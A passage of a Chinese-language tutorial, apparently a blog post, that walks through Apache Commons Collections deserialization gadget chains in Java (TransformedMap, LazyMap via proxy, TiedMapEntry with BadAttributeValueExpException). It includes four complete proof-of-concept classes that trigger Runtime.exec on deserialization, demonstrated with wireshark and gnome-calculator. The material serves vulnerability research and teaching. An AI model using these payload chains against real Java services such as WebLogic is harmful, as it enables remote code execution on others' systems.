import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class POC3 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","asdf");

        Map outerMap = TransformedMap.decorate(innerMap,null,chain);
        outerMap.put("name","axin");
    }
}
```
运行poc,成功弹出wireshark



现在倒是找到了能够触发transform()的地方了，但是这还是不能在反序列化的时候自动触发呀，我们都知道反序列化只会自动触发函数readObject(),所以，接下来我们需要找到一个类，这个类重写了readObject(),并且readObject中直接或者间接的调用了刚刚找到的那几个方法：transformKey、transformValue、checkSetValue、put等等。

到这一步，正常的代码审计过程中，会采取两种策略，一种是继续向上回溯，找transformKey、transformValue、checkSetValue这几个方法被调用的位置，另一种策略就是全局搜索readObject()方法，看看有没有哪个类直接就调用了这三个方法中的一个或者readObject中有可疑的操作，最后能够间接触发这几个方法。审计中，一般都会把两种策略都试一遍。

在接着往下看之前先来看两个个小知识点：
1. TransformedMap是Map类型，

2. TransformedMap里的每个entryset在调用setValue方法时会自动调用TransformedMap类的checkSetValue方法(我想，这个也是漏洞作者在挖掘过程中按照我上面提到的那两种策略摸索出来的，而不是他一开始就知道...由于idea不能全局搜索反编译文件中的任意字符串，我也就不能轻松的逆向分析复现出作者的挖掘过程，所以就直接把结论放在这里，然后一会正向分析为什么会自动调用checkSetValue方法）。


> 上面提到了entryset, 关于Map类型的entrySet()参考：https://blog.csdn.net/weixin_42956945/article/details/81637843

有了上面的结论，现在的策略进一步转换成：寻找一个重写了readObject方法的类，这个类的readObject方法中对某个Map类型的属性的entry进行了setValue操作！（当然这个属性需要我们可控）于是就找到了sun.reflect.annotation.AnnotationInvocationHandler类，这个类是jdk自带的，不是第三方的，所以这就导致了我在文章开头说的ysoserial的一些payload不能攻击运行在jdk1.8上的Weblogic，因为jdk1.8更新了sun.reflect.annotation.AnnotationInvocationHandler。我们看下jdk1.8的sun.reflect.annotation.AnnotationInvocationHandler的readObject实现：

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        GetField var2 = var1.readFields();
        Class var3 = (Class)var2.get("type", (Object)null);
        Map var4 = (Map)var2.get("memberValues", (Object)null);
        AnnotationType var5 = null;

        try {
            var5 = AnnotationType.getInstance(var3);
        } catch (IllegalArgumentException var13) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var6 = var5.memberTypes();
        LinkedHashMap var7 = new LinkedHashMap();

        String var10;
        Object var11;
        for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11)) {
            Entry var9 = (Entry)var8.next();
            var10 = (String)var9.getKey();
            var11 = null;
            Class var12 = (Class)var6.get(var10);
            if (var12 != null) {
                var11 = var9.getValue();
                if (!var12.isInstance(var11) && !(var11 instanceof ExceptionProxy)) {
                    var11 = (new AnnotationTypeMismatchExceptionProxy(var11.getClass() + "[" + var11 + "]")).setMember((Method)var5.members().get(var10));
                }
            }
        }
```

再来看看jdk1.7相关的实现：

```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
    var1.defaultReadObject();
    AnnotationType var2 = null;

    try {
        var2 = AnnotationType.getInstance(this.type);
    } catch (IllegalArgumentException var9) {
        throw new InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map var3 = var2.memberTypes();
    Iterator var4 = this.memberValues.entrySet().iterator();

    while(var4.hasNext()) {
        Entry var5 = (Entry)var4.next();
        String var6 = (String)var5.getKey();
        Class var7 = (Class)var3.get(var6);
        if (var7 != null) {
            Object var8 = var5.getValue();
            if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
            }
        }
    }

}
```

可以明显看到jdk1.8已经没有了setValue操作，而jdk1.7中有我们关注的setValue操作——var5.setValue(),var5是this.memberValues中的一个entryset,并且memberValues是Map类型，且我们可控,如下：


所以，只要我们在构造poc时将memberValues设置为transformerdMap,那么就有可能触发setValue操作，前提是需要满足if条件`!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)`


接下来我们的任务就是研究怎么构造poc才能满足这个if条件。通过代码可以知道var7 = (Class)var3.get(var6),其中var3=var2.memberTypes(),然后var2=AnnotationType.getInstance(this.type),而this.type是可控的，构造函数如下：

```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```

可见this.type就是构造函数的第一个参数（当然还是需要满足if条件才能赋值成功），所以，现在构造函数的第一个参数到底传什么才能满足我们的需求呢,首先它得继承Annotation,所以我们直接去找Annotation的子类，后面在看源码的过程中我才知道Annotation这个接口是所有**注解**类型的公用接口，所有注解类型应该都是实现了这个接口的，而漏洞作者用到的是`java.lang.annotation.Retention.class`这个注解类（其他符合条件的类也是可以的，不过我没有继续找了emmmm）。

> 了解java注解，参考：https://juejin.im/post/5b45bd715188251b3a1db54f


这个注解是否符合条件呢？一行行读代码不够直观，我们不妨就假设这个类满足条件，用它来继续构造poc，然后在下断点调试一下，这样可以更加清晰的看到结果～接着上面的poc,现在我们需要新建一个AnnotationInvocationHandler类的实例，但是这个类的访问权限不是public,而是包访问权限，所以，我们在构造poc的时候只有通过反射机制来实例化它，具体看代码：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class POC4 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","asdf");
        
        Map outerMap = TransformedMap.decorate(innerMap,null,chain);
        
        // 通过反射机制实例化AnnotationInvocationHandler
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        Object ins = cons.newInstance(java.lang.annotation.Retention.class,outerMap);
        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(ins);
        oos.flush();
        oos.close();
        // 本地模拟反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = (Object) ois.readObject();
    }
}
```
上面就是一个完整的poc了，不过，为了调试，我还在poc中本地模拟了反序列化的过程，这个过程在真实环境中应该是目标应用自动执行的。我在sun.reflect.annotation.AnnotationInvocationHandler的readObject方法处下了断点，一图胜千言，各个变量的值一目了然：



可见java.lang.annotation.Retention.class确实能够使得我们的if条件成立，从而执行到var5.setValue()处
经过调试，我发现map的键值必须为"value"，否则利用不成功，这是一处小细节～

执行到setValue处，我们先停一停，准备填最后一个坑——为什么执行setValue就会自动调用前面提到的checkValue方法？

跟进setValue方法中看一看，从上图中我们已经可以看到var5的类型是`AbstractInputCheckedMapDecorator$MapEntry`,所以这里执行的的setValue也是调用的`AbstractInputCheckedMapDecorator$MapEntry.setValue()`,我们可以直接去setValue方法处下一个断点：



可以看到这里调用了this.parent.checkSetValue(),而我圈出来的地方也显示了this.parent的值是TransformedMap类型，至此，整个利用链结束，继续执行，弹出wireshark:



### LazyMap利用链

接着来看看LazyMap类中调用了transform的地方，在get方法中：
```java
    public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
```

调用了this.factory.transform方法，而   `this.factory`是我们可控的，构造函数如下：

```java
    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = factory;
        }
    }
```
构造poc的时候只要令factory为精心构造的ChainedTransformer就行，然后按照之前的思路，我们找一下哪里可能调用了LazyMap的get方法。

```java
    public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
        } else if (var5.length != 0) {
            throw new AssertionError("Too many parameters for an annotation method");
        } else {
            byte var7 = -1;
            switch(var4.hashCode()) {
            case -1776922004:
                if (var4.equals("toString")) {
                    var7 = 0;
                }
                break;
            case 147696667:
                if (var4.equals("hashCode")) {
                    var7 = 1;
                }
                break;
            case 1444986633:
                if (var4.equals("annotationType")) {
                    var7 = 2;
                }
            }

            switch(var7) {
            case 0:
                return this.toStringImpl();
            case 1:
                return this.hashCodeImpl();
            case 2:
                return this.type;
            default:
                Object var6 = this.memberValues.get(var4);
                if (var6 == null) {
                    throw new IncompleteAnnotationException(this.type, var4);
                } else if (var6 instanceof ExceptionProxy) {
                    throw ((ExceptionProxy)var6).generateException();
                } else {
                    if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                        var6 = this.cloneArray(var6);
                    }

                    return var6;
                }
            }
        }
    }
```

发现AnnotationInvocationHandler的invoke方法中有相关的调用，` Object var6 = this.memberValues.get(var4);`其中`this.memberValues`是可控的，令其为精心构造的LazyMap对象，但是我们要怎么触发AnnotationInvocationHandler.invoke()呢？熟悉java的同学都知道java有一种机制——动态代理。

动态代理参考：

https://www.mi1k7ea.com/2019/02/01/Java%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86%E6%9C%BA%E5%88%B6/

总结为一句话就是，被动态代理的对象调用任意方法都会通过对应的InvocationHandler的invoke方法触发

所以我们只要创建一个LazyMap的动态代理，然后再用动态代理调用LazyMap的某个方法就行了，但是为了反序列化的时候自动触发，我们应该找的是某个重写了readObject方法的类，这个类的readObject方法中可以通过动态代理调用LazyMap的某个方法，其实这和直接调用LazyMap某个方法需要满足的条件几乎是一样的，因为某个类的动态代理与它本身实现了同一个接口。而我们通过分析TransformedMap利用链的时候，已经知道了在AnnotationInvocationHandler的readObject方法中会调用某个Map类型对象的entrySet()方法，而LazyMap以及他的动态代理都是Map类型，所以，一条利用链就这么出来了：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.eclipse.persistence.internal.xr.Invocation;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class POC5 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","axin");

        Map lazyMap = LazyMap.decorate(innerMap,chain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        // 创建LazyMap的handler实例
        InvocationHandler handler = (InvocationHandler) cons.newInstance(Override.class,lazyMap);
        // 创建LazyMap的动态代理实例
        Map mapProxy = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(), handler);
        
        // 创建一个AnnotationInvocationHandler实例，并且把刚刚创建的代理赋值给this.memberValues
        InvocationHandler handler1 = (InvocationHandler)cons.newInstance(Override.class, mapProxy);

        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(handler1);
        oos.flush();
        oos.close();
        // 本地模拟反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = (Object) ois.readObject();
    }
}
```

运行一波,弹出wireshark（虽然反序列化过程报错了，但是还是执行了命令，报错这个问题我还没解决~）：



当然，LazyMap还有其他构造利用链的方法，我们后续再谈～


#### LazyMap利用链补充

上面的利用链受限于jdk版本，我们来看一看另外一种利用方式，这条利用链不是用动态代理的方式触发了，我们一起来看看吧：

从上一条利用链我们已经知道LazyMap类的get方法中调用了transform方法，那么除了AnnotationInvocationHandler的invoke方法中调用了get方法外，还有没有其他的地方也调用了get方法呢?当然有，TiedMapEntry类的getValue方法也调用了，如下：

```java
public Object getValue() {
        return this.map.get(this.key);
    }
```
而且`this.map`我们也可以控制，但是我们最终要找的还是readObject方法中的触发点，所以继续网上找，看看哪里调用了TiedMapEntry的getValue方法，找到TiedMapEntry类的toString方法：

```java
public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
```

toString方法与php中的`__toString`方法类似，在进行字符串拼接或者手动把某个类转换为字符串的时候会被调用，所以，现在我们找找把TiedMapEntry的对象当做字符串处理的地方，找到了BadAttributeValueExpException的readObject方法中有相关调用：

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
```

可以看到第三个if分支里调用了`valObj.toString()`,而`valObj=gf.get("val", null)`,这里其实就是读取传过来对象的`val`属性值，所以，只要我们控制BadAttributeValueExpException对象的val属性的值为我们精心构造的TiedMapEntry对象就行。所以，就有了下面的poc:

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class POC6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"gnome-calculator"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","axin");

        Map lazyMap = LazyMap.decorate(innerMap,chain);
        // 将lazyMap封装到TiedMapEntry中
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "val");
        // 通过反射给badAttributeValueExpException的val属性赋值
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(badAttributeValueExpException);
        oos.flush();
        oos.close();
        // 本地模拟反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = (Object) ois.readObject();
    }
}
```

这里有一点需要注意，那就是不嗯给你直接在初始化的时候就给badAttributeValueExpException 对象的val属性赋值，因为它的构造函数如下：

```java
public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }
```
这里直接就调用了`val.toString`，所以，如果通过构造函数赋值val属性为我们构造的TiedMapEntry对象对导致在本地生成payload的时候就执行了命令，并且我们精心构造的对象还会被转换为String类型，就失效了。最后，弹个计算器吧～




### 其他
weblogic调试方法参考：

https://blog.csdn.net/defonds/article/details/83510668

java安全管理器SecurityManager入门：

https://www.cnblogs.com/yiwangzhibujian/p/6207212.html


